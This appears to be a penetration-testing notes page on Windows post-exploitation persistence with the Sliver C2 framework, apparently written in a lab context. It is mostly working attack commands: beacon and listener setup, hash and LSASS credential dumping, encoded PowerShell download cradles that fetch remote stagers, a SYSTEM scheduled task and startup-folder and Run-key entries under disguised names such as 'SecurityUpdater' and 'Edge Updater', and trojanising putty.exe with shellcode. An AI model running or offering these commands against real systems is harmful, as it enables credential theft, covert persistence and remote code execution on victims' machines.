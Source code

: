 # Persistance

Having access to a host with for example we can work on persistance by starting up with a beacon and listener.

```sh
generate beacon --http 10.10.14.120:9001 --skip-symbols --os windows -N http-beacon-9001
```

And the listener

```sh
http -L 10.10.14.62 -l 9001
```

When running as an Administrator

* `info` = get info
* `interactive` = Create session then `use <session id>`
* `getsystem` = Spawn a new session running as NT
* `hashdump` = `use <session id>` then get hashes.

Or dump LSASS

```sh
# Dump LSASS
sliver (http-beacon) > ps -e lsass

 Pid   Ppid   Owner                 Arch     Executable   Session 
===== ====== ===================== ======== ============ =========
 660   524    NT AUTHORITY\SYSTEM   x86_64   lsass.exe    0
 
sliver (http-beacon) > procdump --pid 660 --save /tmp/lsass.dmp

[*] Process dump stored in: /tmp/lsass.dmp

# Pypykatz
pypykatz lsa minidump /tmp/lsass.dmp 
```

## Persistance&#x20;

We can achieve persistance with running scheduled task or other methods that runs every once in a while.

{% hint style="info" %}
Usin g WMI events by having a "normal" spawn of `calc.exe`, for example, can open the calculator application and start the `http-beacon.exe` file
{% endhint %}

See for more techniques [https://attack.mitre.org/tactics/TA0003/](https://attack.mitre.org/tactics/TA0003/).

### <mark style="color:yellow;">Scheduled tasks</mark>

Preparing our payload for scheduled tasks we have to encodig to UTF-16LE as powershell uses this.

```powershell
echo -en "iex(new-object net.webclient).downloadString('http://10.10.14.120:8088/stager.txt')" | iconv -t UTF-16LE | base64 -w 0
aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAMgA6ADgAMAA4ADgALwBzAHQAYQBnAGUAcgAuAHQAeAB0ACcAKQA=
```

Now we can use schtaks cmdlet to create a task. We call it SecurityUpdate:

* `/sc` = schedule frequency
* `/mo` = frequency of repeating taks
* `/tn` = name of taks
* `/ru` = user context under which task runs

```sh
sliver (http-beacon) > execute powershell 'schtasks /create /sc minute /mo 1 /tn SecurityUpdater /tr "powershell.exe -enc aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAMgA6ADgAMAA4ADgALwBzAHQAYQBnAGUAcgAuAHQAeAB0ACcAKQA=" /ru SYSTEM'
```

### <mark style="color:yellow;">Logon activity</mark>

Once a user logs in to the operating system, a specific payload is executed. We can insert a backdoor activity into the `Startup` folder and registry. Each user's Startup folder is in `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`. If we drop a file here, the file will be executed every time the user logs in.

```powershell
sharpersist -- -t startupfolder -c \"powershell.exe\" -a \"-nop -w hidden iex(new-object net.webclient).downloadstring(\'http://10.10.14.62:8088/stager.txt\')\" -f \"Edge Updater\" -m add
```

### <mark style="color:yellow;">Run and RunOnce</mark>

Specify a program when a user logins by editing registry.

<details>

<summary>Registry items</summary>

* HKCU\Software\Microsoft\Windows\CurrentVersion\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
* HKLM\Software\Microsoft\Windows\CurrentVersion\Run
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

</details>

```sh
sharpersist -- -t reg -c \"powershell.exe\" -a \"-nop -w hidden iex(new-object net.webclient).downloadstring(\'http://10.10.14.62:8088/staged.txt\')\" -k \"hklmrun\" -v \"AdvancedProtection\" -m add
```

### <mark style="color:yellow;">Backdoor</mark>

Using the backdoor function in Sliver we can bakdoor binaries like putty.exe to run our shellcode. It can alter behaviour of the binary so that it wont even start.&#x20;

```sh
# New profile
sliver (http-beacon) > profiles new --format shellcode --http 10.10.14.62:9002 persistence-shellcode
[*] Saved new implant profile persistence-shellcode

# HTTP Listener
sliver (http-beacon) > http -L 10.10.14.62 -l 9002
[*] Starting HTTP :9002 listener ...
[*] Successfully started job #3

# Create backdoor
sliver (http-beacon) > backdoor --profile persistence-shellcode "C:\Program Files\PuTTY\putty.exe"
[*] Uploaded backdoor'd binary to C:\Program Files\PuTTY\putty.exe
```



